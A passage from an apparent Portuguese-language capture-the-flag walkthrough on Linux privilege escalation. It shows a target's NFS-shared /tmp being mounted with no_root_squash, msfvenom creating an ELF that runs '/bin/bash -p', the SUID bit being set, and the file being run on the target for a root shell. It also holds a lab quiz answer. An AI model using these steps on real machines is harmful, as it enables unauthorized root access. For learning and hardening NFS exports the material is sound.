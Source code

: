 Note que o diretório `/tmp` está sendo compartilhado via NFS. Vamos montar o diretório remoto em nosso computador:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in /tmp                                                                                                        10:44:03
╰──➤ mount -o rw,vers=3 10.10.84.63:/tmp /tmp/nfs

╭─[LAPTOP-HRI3FQ3J] as root in /tmp                                                                                                        10:44:19
╰──➤ cd nfs

╭─[LAPTOP-HRI3FQ3J] as root in /tmp/nfs                                                                                                    10:44:23
╰──➤ ls
backup.tar.gz  rootbash  root.pm  useless
```

<div class="page"/>

Agora usando o `msfvenom` vamos gerar um payload e salvar no diretório remoto:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in /tmp/nfs                                                                                                    10:46:17
╰──➤ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 48 bytes
Final size of elf file: 132 bytes
Saved as: /tmp/nfs/shell.elf
```

Vamos mudar as permissões do arquivo para que ele possa ser executado:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in /tmp/nfs                                                                                                    10:47:10
╰──➤ chmod +xs /tmp/nfs/shell.elf
```

Agora na maquina alvo vamos executar o arquivo:

```bash
user@debian:/.ssh$ /tmp/shell.elf
bash-4.1# whoami
root
```

E para completar o topico temos que responder a pergunta "`What is the name of the option that disables root squashing?`"
> `no_root_squash`

---

## **<a id="20"> • Kernel Exploits.</a>**
